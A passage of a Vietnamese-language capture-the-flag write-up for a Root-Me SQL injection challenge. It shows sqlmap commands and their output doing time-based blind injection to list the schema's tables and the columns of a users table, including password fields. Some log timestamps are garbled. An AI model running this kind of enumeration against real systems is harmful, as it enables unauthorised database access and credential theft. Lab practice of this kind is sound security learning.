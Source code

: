 - Ta được:

```
current schema (equivalent to database on PostgreSQL):    'public'
```

- Tiếp tục tìm các bảng từ database `public`:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public --tables
```

```
[23:05:14] [INFO] retrieved: sqlmapoutput
[23:05:14] [INFO] retrieved: users
[23:05:14] [DEBUG] performed 39 queries in 33.20 seconds
Database: public
[2 tables]
+--------------+
| sqlmapoutput |
| users        |
+--------------+
```

- Lấy các cột từ bảng `users`:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users --columns
```

- Kết quả:

```
[23:12:41] [INFO] fetching columns for table 'users' in database 'public'
[23:12:41] [INFO] resumed: 6
[23:12:41] [INFO] resumed: email
[23:1512:41] [WARNING] (case) time-based comparison requires reset of statistical model, please wait........................(done)
[23:14:23] [INFO] resumed: firstname
[23:14:23] [INFO] retrieved: varchar
[23:15:04] [INFO] resuming partial value: i
[23:15:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait........................(done)
[23:15:13] [INFO] retrieved: int4
[23:15:41] [INFO] retrieved: lastname
[23:16:30] [INFO] retrieved: varchar
[23:17:10] [INFO] retrieved: password
[23:17:06] [INFO] retrieved: varchar
[23:18:47] [INFO] retrieved: username
[23:19:33] [INFO] retrieved: varchar
Database: public
Table: users
[6 columns]
+-----------+---------+
| Column    | Type    |
+-----------+---------+
| email     | varchar |
| firstname | varchar |
| id        | int4    |
| lastname  | varchar |
| password  | varchar |
| username  | varchar |
+-----------+---------+
```
